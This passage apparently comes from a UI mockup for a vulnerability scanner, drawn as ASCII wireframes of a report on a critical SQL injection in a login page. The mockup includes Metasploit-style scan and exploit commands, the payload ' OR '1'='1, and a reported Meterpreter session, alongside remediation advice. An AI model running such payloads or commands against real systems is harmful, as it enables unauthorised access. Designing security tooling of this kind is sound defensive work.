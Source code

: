 ```
| |                        |  |    /search.php parameter 'q'     |     |
| |  Next steps:           |  |                                  |     |
| |  - Scan for directories|  |  [View Details] [Export Report]  |     |
| +------------------------+  +----------------------------------+     |
|                                                                      |
+----------------------------------------------------------------------+
```

### Детальный вид уязвимости

```
+----------------------------------------------------------------------+
|                       VULNERABILITY DETAILS                           |
+----------------------------------------------------------------------+
| < Back to Dashboard                                                   |
+----------------------------------------------------------------------+
|                                                                      |
| Title: SQL Injection in login.php                                    |
| Severity: Critical (CVSS: 9.8)                                       |
| Location: http://example.com/login.php                               |
| Parameter: user                                                      |
|                                                                      |
| Description:                                                         |
| The login.php page is vulnerable to SQL injection attacks through    |
| the 'user' parameter. This allows an attacker to bypass              |
| authentication and potentially extract sensitive data from the       |
| database.                                                            |
|                                                                      |
| Evidence:                                                            |
| [Command executed]                                                   |
| use auxiliary/scanner/http/sql_injection                             |
| set RHOSTS example.com                                               |
| set PATH /login.php                                                  |
| run                                                                  |
|                                                                      |
| [Result]                                                             |
| [+] Found SQL injection in parameter 'user'                          |
| [+] Payload: user=' OR '1'='1                                        |
|                                                                      |
| Exploitation:                                                        |
| [Command executed]                                                   |
| use exploit/multi/http/php_sql_injection                             |
| set RHOSTS example.com                                               |
| set PATH /login.php                                                  |
| set PARAM user                                                       |
| exploit                                                              |
|                                                                      |
| [Result]                                                             |
| [+] Successful exploitation                                          |
| [+] Meterpreter session 1 opened                                     |
|                                                                      |
| Recommendations:                                                     |
| - Implement prepared statements or parameterized queries             |
| - Apply input validation and sanitization                            |
| - Use stored procedures for database access                          |
|                                                                      |
+----------------------------------------------------------------------+
```
